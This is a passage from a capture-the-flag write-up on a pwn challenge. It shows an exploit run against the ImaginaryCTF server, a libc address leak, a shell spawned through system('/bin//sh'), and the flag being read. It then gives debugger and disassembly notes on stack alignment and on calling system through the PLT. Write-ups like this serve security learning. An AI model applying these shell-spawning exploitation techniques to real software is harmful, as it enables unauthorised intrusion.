 {% code overflow="wrap" %}
```sh
python exploit.py REMOTE puzzler7.imaginaryctf.org 2007
[+] Opening connection to puzzler7.imaginaryctf.org on port 2007: Done
[*] leaked got_system: 0x7f4f6a53dd60
[*] Switching to interactive mode
 What data do you want to write to this element?

>>> $ cat flag.txt
ictf{who_knew_the_current_date_could_be_so_dangerous?}$
```
{% endcode %}

**edit:** `system+1` was not required. When we leak the Lib-C address, we can call it directly from the base. If we setup a breakpoint at `write_data` and step through until the `fgets` (`system`) call:

{% code overflow="wrap" %}
```sh
 RSP  0x7fff526190b0 ◂— 0x0
*RIP  0x401241 (write_data+60) ◂— call   0x401080
──────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────
   0x401229 <write_data+36>    call   printf@plt                      <printf@plt>

   0x40122e <write_data+41>    mov    rdx, qword ptr [rip + 0x2e4b] <stdin@GLIBC_2.2.5>
   0x401235 <write_data+48>    mov    rax, qword ptr [rbp - 0x18]
   0x401239 <write_data+52>    mov    esi, 0x64
   0x40123e <write_data+57>    mov    rdi, rax
 ► 0x401241 <write_data+60>    call   fgets@plt                      <fgets@plt>
        s: 0x2394300 ◂— '/bin//sh'
        n: 0x64
        stream: 0x7f174e9c6980 (_IO_2_1_stdin_) ◂— 0xfbad2088
```
{% endcode %}

Notice that the RSP (`0x7fff526190b0`) no longer ends with an `8`, like it did when we were getting a segfault.

**double edit:** After reading the official write-up, I realised my mistake of using `system+1`. I had misinterpreted the advice, as in theirs they use the PLT address of system, rather than leaking from Lib-C. There's a good summary of PLT vs GOT (and plt.got vs got.plt) **[HERE](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)**.

> TL;DR: Those starting with .plt contain stubs to jump to the target, those starting with .got are tables of the target addresses.

Here's a snippet of the `plt.system` section of the binary. We should of used `0x401060` in this instance.

{% code overflow="wrap" %}
```c
thunk int system(char * __command)
      Thunked-Function: <EXTERNAL>::system
int           EAX:4      <RETURN>
char *        RDI:8      __command
        <EXTERNAL>::system     XREF[1]:  view_time:0040141a(c)
00401060 ff 25       JMP      qword ptr [-><EXTERNAL>::system]
00401066 68 03       PUSH     0x3
0040106b e9 b0       JMP      FUN_00401020
```
{% endcode %}
